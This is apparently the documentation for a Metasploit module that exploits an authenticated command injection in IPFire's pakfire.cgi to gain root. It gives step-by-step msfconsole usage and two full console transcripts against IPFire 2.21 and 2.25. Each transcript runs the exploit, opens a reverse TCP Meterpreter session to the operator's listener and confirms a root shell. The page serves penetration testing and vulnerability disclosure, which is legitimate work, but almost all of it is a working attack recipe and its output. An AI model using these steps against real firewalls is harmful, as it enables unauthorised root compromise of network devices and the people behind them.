 ## Vulnerable Application

  [IPFire 2.25 (Core Update 156)](https://downloads.ipfire.org/releases/ipfire-2.x/2.25-core156/ipfire-2.25.x86_64-full-core156.iso)
  [IPFire 2.21 (Core Update 126)](https://mirror.csclub.uwaterloo.ca/ipfire/releases/ipfire-2.x/2.21-core126/ipfire-2.21.x86_64-full-core126.iso)

  This module exploits an authenticated command injection vulnerability in the
  `/cgi-bin/pakfire.cgi` web page of IPFire devices running versions 2.25 Core Update 156
  and prior to execute arbitrary code as the `root` user.

## Verification Steps

  1. Start msfconsole
  1. Do: `use exploit/linux/http/ipfire_pakfire_exec`
  1. Do: `set username <USERNAME OF THE ADMINISTRATIVE USER TO AUTHENTICATE TO THE WEB PORTAL AS>`
  1. Do: `set password <PASSWORD FOR admin USER ON THE WEB PORTAL>`
  1. Do: `set rhost <TARGET IP>`
  1. Do: `set lhost <YOUR IP>`
  1. Do: `exploit`
  1. You should get a shell as the `root` user.

## Options

### USERNAME
  Username of the administrative user you are authenticating to the web portal as.

### PASSWORD
  Password for the administrative user you are authenticating to the web portal as.

## Scenarios

### IPFire 2.21 (Core Update 126)
```
msf > use exploit/linux/http/ipfire_pakfire_exec
[*] Using configured payload python/meterpreter/reverse_tcp
msf exploit(linux/http/ipfire_pakfire_exec) > show options

Module options (exploit/linux/http/ipfire_pakfire_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     444              yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local ma
                                        chine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   USERNAME  admin            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python Dropper


msf exploit(linux/http/ipfire_pakfire_exec) > set RHOSTS 172.29.202.191
RHOSTS => 172.29.202.191
msf exploit(linux/http/ipfire_pakfire_exec) > set USERNAME admin
USERNAME => admin
msf exploit(linux/http/ipfire_pakfire_exec) > set PASSWORD admin
PASSWORD => admin
msf exploit(linux/http/ipfire_pakfire_exec) > set LHOST 172.29.202.153
LHOST => 172.29.202.153
msf exploit(linux/http/ipfire_pakfire_exec) > exploit

[*] Started reverse TCP handler on 172.29.202.153:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is running IPFire 2.21 (Core Update 126)
[*] Backing up backup.pl to /tmp/1TiE8...
[*] Overwriting the contents of backup.pl with a Python header statement
[*] Appending the contents of backup.pl with the Python code to be executed.
[*] Executing /usr/local/bin/backupctrl to run the payload
[*] Sending stage (39392 bytes) to 172.29.202.191
[*] Meterpreter session 1 opened (172.29.202.153:4444 -> 172.29.202.191:38336) at 2021-06-08 14:05:41 -0500
[+] You should now have your shell, restoring the original contents of the backup.pl file...
[*] All done, enjoy the shells!

meterpreter > sysinfo
Computer     : ipfire.localdomain
OS           : Linux 4.14.86-ipfire #1 SMP Tue Dec 11 08:36:08 GMT 2018
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: root
meterpreter > shell
Process 28379 created.
Channel 1 created.
sh: cannot set terminal process group (27956): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.3# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.3#
```

### IPFire 2.25 (Core Update 156)

```
msf > use exploit/linux/http/ipfire_pakfire_exec
[*] Using configured payload python/meterpreter/reverse_tcp
msf exploit(linux/http/ipfire_pakfire_exec) > show options

Module options (exploit/linux/http/ipfire_pakfire_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     444              yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local ma
                                        chine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   USERNAME  admin            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python Dropper


msf exploit(linux/http/ipfire_pakfire_exec) > set RHOST 172.29.202.157
RHOST => 172.29.202.157
msf exploit(linux/http/ipfire_pakfire_exec) > set USERNAME admin
USERNAME => admin
msf exploit(linux/http/ipfire_pakfire_exec) > set PASSWORD admin
PASSWORD => admin
msf exploit(linux/http/ipfire_pakfire_exec) > set LHOST 172.29.202.153
LHOST => 172.29.202.153
msf exploit(linux/http/ipfire_pakfire_exec) > exploit

[*] Started reverse TCP handler on 172.29.202.153:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is running IPFire 2.25 (Core Update 156)
[*] Backing up backup.pl to /tmp/8Yndo...
[*] Overwriting the contents of backup.pl with a Python header statement
[*] Appending the contents of backup.pl with the Python code to be executed.
[*] Executing /usr/local/bin/backupctrl to run the payload
[*] Sending stage (39392 bytes) to 172.29.202.157
[*] Meterpreter session 1 opened (172.29.202.153:4444 -> 172.29.202.157:37192) at 2021-06-08 14:02:03 -0500
[+] You should now have your shell, restoring the original contents of the backup.pl file...
[*] All done, enjoy the shells!

meterpreter > sysinfo
Computer     : ipfire.localdomain
OS           : Linux 4.14.212-ipfire #1 SMP Tue May 4 09:02:54 GMT 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: root
meterpreter > shell
Process 10179 created.
Channel 1 created.
sh: cannot set terminal process group (10136): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.0# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.0#
```
